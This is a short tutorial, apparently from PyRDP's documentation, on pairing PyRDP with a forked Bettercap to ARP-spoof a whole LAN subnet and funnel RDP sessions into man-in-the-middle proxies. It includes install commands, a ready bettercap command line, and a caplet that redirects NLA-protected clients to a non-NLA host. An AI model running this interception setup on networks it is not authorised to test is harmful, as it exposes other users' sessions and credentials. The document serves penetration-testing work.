 # Run PyRDP alongisde Bettercap

Here is a short tutorial on how to combine the PyRDP and Bettercap to
redirect all RDP sessions on a LAN segment. By default, Bettercap's arp
spoofing module will spoof the entire subnet over a given interface. We
will spawn an instance of PyRDP for each incoming RDP connections if they
are in our target list, otherwise we will forward them.

## Requirements

1. PyRDP  
2. Our fork and branch of [Bettercap](https://github.com/GoSecure/bettercap/tree/rdp-mitm)
3. Our fork of [Caplets](https://github.com/GoSecure/caplets/)

## Setup

Install PyRDP by following these steps : https://github.com/GoSecure/pyrdp#installing

Install Bettercap by running these commands :

    sudo apt-get update
    sudo apt-get install build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
    mkdir -p $GOPATH/src/github.com/bettercap/
    cd $GOPATH/src/github.com/bettercap/
    git clone https://github.com/GoSecure/bettercap.git -b rdp-mitm
    cd bettercap
    go get
    go build
    make build && sudo make install

Install Caplets by running these commands :

    mkdir -p ~/src/
    cd ~/src/
    git clone https://github.com/GoSecure/caplets.git
    cd caplets
    sudo make install

## Usage

Assuming that you installed PyRDP using a venv, you need to activate your PyRDP virtual environment:

    source venv/bin/activate

Start bettercap with :

    sudo bettercap -iface <interface> -caplet <caplet> -eval "set rdp.proxy.command $(which pyrdp-mitm)"

Basic example :

    sudo bettercap -iface wlp2s0 -caplet rdp-proxy/rdp-sniffer.cap -eval "set rdp.proxy.command $(which pyrdp-mitm)"

## Caplets

Caplets are basically a way to script bettercap's configuration. You can also use a caplet to better understand how to use a module.
You may modify a caplet to fine-tune the module, but you will need to reinstall it with `sudo make install` to apply the modifications.

We currently have 2 caplets. Read each caplet's source for further documentation and usage. Here's a quick rundown :

<dl>
  <dt>rdp-proxy/rdp-sniffer.cap</dt>
  <dd>The default caplet. Forwards every target to a PyRDP instance if they have disabled NLA.</dd>

  <dt>rdp-proxy/rdp-sniffer-nla-redirect.cap</dt>
  <dd>Will forward every target to a PyRDP instance if they have disabled NLA. Otherwise, redirect the client to a user-defined non-NLA host.</dd>
  <dd>Requires some configuration inside the caplet at ~/src/caplets/rdp-proxy/rdp-sniffer-nla-redirect.cap</dd>
  <dd>Don't forget to `sudo make install` after editing the caplet.</dd>
</dl>

Have fun!
